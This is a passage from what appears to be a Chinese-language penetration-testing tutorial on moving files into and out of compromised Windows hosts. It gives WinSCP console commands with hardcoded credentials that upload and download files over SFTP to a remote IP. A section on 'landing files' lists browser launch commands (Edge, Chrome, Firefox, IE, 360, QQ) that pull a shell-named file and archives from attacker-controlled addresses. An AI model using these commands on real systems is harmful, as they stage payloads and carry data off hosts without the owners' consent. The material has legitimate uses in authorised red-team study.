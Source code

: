 winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "put D:\1.txt  /tmp/" "exit" /log=log_file.txt  
  
#下载  
  
winscp.exe /console /command "option batch continue" "option confirm off" "open sftp://bypass:abc123!@192.168.28.131:22" "option transfer binary" "get /tmp D:\test\app\" "exit" /log=log_file.tx  
  
  
  
**29.使用浏览器落地文件（出网）**  
  
  
这个思路也很有意思，师傅们都知道用浏览器打开一个URL，当我们访问的是不能被解析的文件时，这个文件会被直接下载回来（也就是所谓的不解析）  
  
因此我们可以利用这个细节去落地文件，比如edge的msedge_proxy.exe  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrY1aMx54SibV463xAOibZywyKc6gKdT7O4Et19we4icFg9aazIBic3p3wYQ/640?wx_fmt=png&from=appmsg "")  
  
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge_proxy.exe" http://ip/imashell.asdasd  
  
需要把要下载的文件设置为一个不会在浏览器解析的文件名，运行上述命令会打开edge并下载文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SpFfMmvE6EpfDwtrqZ5F2NhjOHdRlSSrFXfUpUfV3zyy6ojp6fZdZ1S5QhGY8mlsdcLAHxO78XmgDPFYWIYYBw/640?wx_fmt=png&from=appmsg "")  
  
默认下载路径在  
  
C:\Users\用户名\Downloads  
  
还有很多浏览器可以利用  
  
  
//edge下载：  
  
start msedge http://192.168.18.1:88/ca.rar  
  
  
//chrome下载：  
  
start chrome http://192.168.1.1:19900/demo.rar  
  
  
//firefox下载：  
  
start firefox http://192.168.1.1:19900/demo.rar  
  
  
//ie下载（高版本ie经测试不会自动下载，低版本未知）：  
  
start iexplore http://192.168.1.1:19900/demo.rar  
  
  
//360浏览器下载：  
  
start 360se http://192.168.1.1:19900/demo.rar  
  
  
//360极速浏览器下载：  
  
start 360chrome http://192.168.1.1:19900/demo.rar  
  
  
//qq浏览器下载：  
  
start qqbrowser.exe http://192.168.1.1:19900/demo.rar  
  
  